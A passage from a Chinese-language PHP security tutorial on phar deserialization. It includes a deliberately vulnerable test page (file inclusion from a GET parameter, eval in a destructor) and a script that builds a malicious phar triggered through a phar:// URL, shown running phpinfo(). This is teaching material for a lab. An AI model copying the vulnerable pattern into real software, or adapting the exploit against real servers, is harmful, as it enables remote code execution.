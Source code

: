 2. manifest
压缩文件的属性等信息，其中用户自定义的meta-data会以序列化的形式存储，漏洞就出现在这里

3. contents
被压缩文件的内容

4. signature
签名，放在文件末尾 


### phar漏洞利用
测试代码如下
```php
<?php 
//test.php
$file=$_GET['file'];
include($file);

class Test{
    function __destruct()
    {
        eval($this->cmd);
   }
}

?>
```

精心构造并访问exp.php页面生成exp.phar
```php
<?php
class Test{
	public $cmd;
}

$phar = new Phar("exp.phar");//实例一个phar对象
$phar -> startBuffering();
$phar -> setStub("<?php __HALT_COMPILER();?>"); //用于识别是phar文件
$t = new Test();
$t -> cmd = 'phpinfo();';
$phar -> setMetadata($t);      //将自定义的meta-data存入manifest
$phar -> addFromString("test.txt","test");//添加要压缩的文件
$phar -> stopBuffering();    
?>

```
然后访问 `localhost/test.php?file=phar://./exp.phar`，成功执行
![](/PHP反序列化.assets/phar_0.png)
